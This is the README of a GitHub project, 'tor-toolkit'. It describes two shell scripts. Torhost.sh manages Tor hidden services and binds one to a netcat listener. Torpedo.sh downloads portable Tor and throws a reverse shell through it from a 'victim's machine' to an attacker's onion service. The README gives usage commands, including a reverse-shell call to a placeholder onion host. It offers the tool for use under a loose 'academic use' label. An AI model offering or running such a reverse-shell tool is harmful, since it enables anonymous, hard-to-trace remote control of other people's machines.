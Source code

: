 # tor-toolkit
This tools are made by me for academic use. Use, modify, do whatever you want.

# Torhost.sh
Is an easy way to create and manage ephemeral hidden services for do whatever u want to do. It's mainly thinked for listener purposes but you know.
By default it uses port 80. Can be upgraded to establish TLS conecction but is not my priority right now. Tested on Debian based systems (Kali, Debian, Parrot) but might work in systemd based systems.

### Options
- install - Torhost will check if u have an hidden service set up on /etc/tor/torrc, if not, it will set up for you.
- start - Start your hidden service.
- stop - Stop your hidden service.
- change - Change hidden service hostname's and print the new one.
- check - Check the hostname of your hidden service.
- listen - Bind hidden service port to netcat local port.

#### Usage/Examples

```bash
sudo bash torhost.sh install
sudo bash torhost.sh check

![image](https://github.com/el10tt/tor-toolkit/assets/124470922/ce12a1b3-9db2-4fab-b0ed-84d5b02abd27)


# Torpedo.sh
Is an easy way to launch reverse shells over Tor, just download tor portable version, execute its, and trhow reverse shell trough tor proxy.
It can be executed without root privileges, Its a nice one since there aren't so much reverse shells over Tor on the Internet.

#### Usage/Examples

First of all you need a hidden service (in attacker machine) to receive the reverse shell, you can manage this hidden service with torhost.sh.
You need to bind the hidden service with the listener local port, you can do it with torhost.sh aswell.
When you got listener ready, just execute torpedo.sh in victim's machine, and just wait for your shell.
You can hardcode hidden service parameters in the script body or you can enter'them as parameter.
Torpedo is only tested on x64 debian based systems. To work in i386 you gonna need to change the URL tor package parameter, for the i386 package.

```bash
. bash torpedo.sh
. bash torpedo.sh onionhiddenservice.onion 80
```

![263494593-c47e5b87-9fd4-4363-b2de-78681d264160](https://github.com/el10tt/tor-toolkit/assets/124470922/dbae8b98-34bd-4582-98de-78db3751c15d)
